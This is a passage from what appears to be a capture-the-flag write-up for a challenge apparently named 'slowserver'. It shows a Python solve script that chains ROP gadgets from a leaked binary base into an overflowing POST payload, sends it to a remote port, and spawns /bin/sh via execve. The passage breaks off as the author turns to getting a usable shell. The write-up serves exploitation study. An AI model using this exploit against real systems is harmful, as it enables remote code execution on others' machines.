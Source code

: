 ```py
# 0x0000000000001816 : pop rdi ; xor rdi, rbp ; ret
# 0x0000000000001811 : pop rsi ; ret
# 0x000000000000180d : pop rdx ; pop r12 ; ret
# 0x0000000000001807 : push rbp ; mov rbp, rsp ; pop rax ; ret
# 0x0000000000001813 : syscall

# Calculate gadget addresses based on the leaked binary base
pop_rax = binary_base + 0x180b
pop_rdi_xor_rdi_rbp = binary_base + 0x1816
pop_rsi = binary_base + 0x1811
pop_rdx_pop_r12 = binary_base + 0x180d
push_rbp_mov_rbp_rsp_pop_rax = binary_base + 0x1807
syscall = binary_base + 0x1813
execve = 59

# Build the start of the payload
payload = b"POST "
payload += b"A" * 16       # Offset to the rbp
payload += b"/bin/sh\x00"  # Overwrite the rbp with /bin/sh string

# Construct the ROP chain to execute execve("/bin/sh", 0, 0)
payload += p64(push_rbp_mov_rbp_rsp_pop_rax)  # Set the value of rbp with the address of /bin/sh
payload += p64(pop_rdi_xor_rdi_rbp)           # Move the address in rbp to rdi (first argument to execve)
payload += p64(0)                             # Set rdi to 0 for xor with rbp
payload += p64(pop_rax)                       # Set rax to 59 (sys_execve syscall number)
payload += p64(execve)  
payload += p64(pop_rsi)                       # Set rsi to 0 (second argument to execve)
payload += p64(0)
payload += p64(pop_rdx_pop_r12)               # Set rdx to 0 (third argument to execve, also sets r12 to 0)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)                       # Trigger the syscall

payload += b" \n"

r2 = remote(remote_addr, 5555)
r2.sendline(payload)
r2.sendline(b"")
r2.interactive("$ ")
```
{: file="solve.py" }

As we can see, running the script, we are able to make the application spawn a shell. However, there is a problem: since we are interacting with the program over a socket and not directly, we are unable to interact with the spawned shell.

![Slowserver Five](slowserver_five.webp){: width="700" height="300" }

### Spawning a Shell
